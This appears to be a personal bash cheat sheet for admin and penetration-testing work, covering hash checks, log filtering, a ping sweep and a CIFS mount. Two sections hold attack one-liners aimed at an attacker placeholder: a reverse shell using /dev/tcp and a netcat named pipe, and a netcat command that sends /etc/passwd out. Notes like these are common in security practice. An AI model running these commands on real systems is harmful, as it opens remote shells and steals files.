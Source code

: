 # bash

### diff a file hash with its published value

`diff <(shasum -a 256 /path/to/file.ext) <(echo "published_sha256_value")`

use something like `... | sed 's/ .*$//'` to strip the extraneous info from the shasum cmd. Add info to the end of the published value to test.

`diff <(shasum -a 256 /path/to/file.ext | sed 's/ .*$//') <(echo "published_sha256_value")`

### carve a range of files by exact beginning and end

`ls -lh | grep "some_logs.log" | grep -E "1[3-9].gz|2[0-6].gz"`

Lists only `some_logs_13.gz` to `some_logs_26.gz`. Pipe that into whatever to do whatever.

### find hashes (hex) from output

`grep -a [a-f0-9]\{32\}`

Pipe output from things like `strings` here to finds hashes. The above will work for all hashes that are 32 characters or greater (md5, sha256, etc). Not perfect; will catch any string that matches the pattern, not just hashes. Adapt as needed. To find sha256 you could do

`grep -a [a-f0-9]\{64\}`

### reverse shell

`bash -i >& /dev/tcp/<attacker ip>/<listening port> 0>&1`

or if no `-e`

`mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker ip listening port > /tmp/f`

### do things to entires in IPs.txt
`for ip in `cat ips.txt`; do md5sum $ip; done >> something.txt`

### ippsec's scanner
```bash
#!/bin/bash
# by Ippsec https://www.youtube.com/watch?v=kE36IGAU5rg

for i in $(seq 2 225); do
    ping -c 1 -W 1 172.20.0.$i 1>/dev/null 2>&1
    if [[ $? -eq 0 ]];  then
          echo "172.20.0.$i - Online"
    fi
done
```
### grep for a string recursively in a dir
```bash
grep -r --include "*.h" "get_return_address" .
# --include "*.h" --> search files ending in .h
```
### exfil /etc/passwd (OR ANYTHING) with nc
```bash
# set up listner on attack box, port 31337. Direct output to exfil.txt
nc -nvlp 31337 > exfil.txt
# on the target, use
nc <attacker_ip_addr> 31337 < /etc/passwd # replace /etc/passwd with whatever file you want to try
```

### if your tool can't handle cidr notation, do it the hard way (ex: is a 10.10.0.0/16)
```bash
for i in $(seq 1 255); do echo "10.10.$i.1-255"; done | tr "\n" ","
```
### Mount a CIFS share with your Kerberos ticket on Linux 
```bash
sudo mount -t cifs -o "sec=krb5,cruid=$UID,user=Administrateur,domain=http://FOO.BAR" //AD1.FOO.BAR/C$ /mnt/test
```
